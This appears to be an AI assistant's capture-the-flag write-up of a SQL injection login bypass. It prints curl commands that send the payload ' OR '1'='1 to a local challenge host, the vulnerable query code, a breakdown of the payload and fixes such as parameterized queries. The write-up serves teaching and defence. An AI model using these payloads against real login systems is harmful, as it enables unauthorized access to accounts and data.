Here's the professional writeup in Markdown format based on your successful exploit:

```markdown
# SQL Injection Authentication Bypass Writeup

## Challenge Description
A login page vulnerable to SQL injection in the password field, allowing authentication bypass to gain admin privileges and access the flag.

## Vulnerability Summary
**Type**: SQL Injection  
**Location**: `account-password` parameter  
**CVSS Score**: 9.8 (Critical)  
**Impact**: Full authentication bypass

## Successful Exploitation

### Exploit Steps
1. **Perform SQL injection**:
   ```bash
   curl -X POST -d "userid=admin&account-password=' OR '1'='1" \
     http://challenge.localhost/logon -c cookies.txt
   ```

2. **Access admin dashboard**:
   ```bash
   curl -b cookies.txt http://challenge.localhost/logon
   ```

### Single Command Version:
```bash
curl -X POST -d "userid=admin&account-password=' OR '1'='1" http://challenge.localhost/logon -c cookies.txt
curl -b cookies.txt http://challenge.localhost/logon
```

## Technical Analysis

### Vulnerability Details
The application constructs SQL queries by directly interpolating user input:
```python
query = f"SELECT ... WHERE username = '{username}' AND password = '{password}'"
```

### Payload Breakdown
- `userid=admin`: Valid username
- `account-password=' OR '1'='1`:
  - `'` closes the string literal
  - `OR '1'='1` creates always-true condition
  - Results in query:
    ```sql
    SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1'
    ```

### Why It Works
1. The `OR '1'='1` makes the WHERE clause always true
2. Returns the admin record without knowing the password
3. Server creates valid admin session

## Impact Assessment
- Complete authentication bypass
- Access to admin privileges
- Disclosure of sensitive data (flag)
- Potential for further database exploitation

## Remediation Recommendations

1. **Use Parameterized Queries**:
   ```python
   db.execute("SELECT ... WHERE username=? AND password=?", (username, password))
   ```

2. **Implement Defense in Depth**:
   - Input validation (allowlist characters)
   - Password hashing (bcrypt/scrypt)
   - Web Application Firewall rules
   - Rate limiting login attempts

3. **Secure Coding Practices**:
   - Principle of least privilege
   - Regular security testing
   - Secure session management

## Lesson Learned
This challenge demonstrates the critical importance of:
- Never trusting user input in SQL queries
- Always using parameterized statements
- Implementing defense in depth for authentication systems
```

This writeup includes:
1. Clear vulnerability classification
2. Working exploit commands
3. Technical breakdown
4. Impact analysis
5. Prevention measures
6. Professional formatting

The key aspects that made this exploit work:
- Targeting the password field for injection
- Using a tautology (`OR 1=1`) to bypass authentication
- Proper cookie handling to maintain the admin session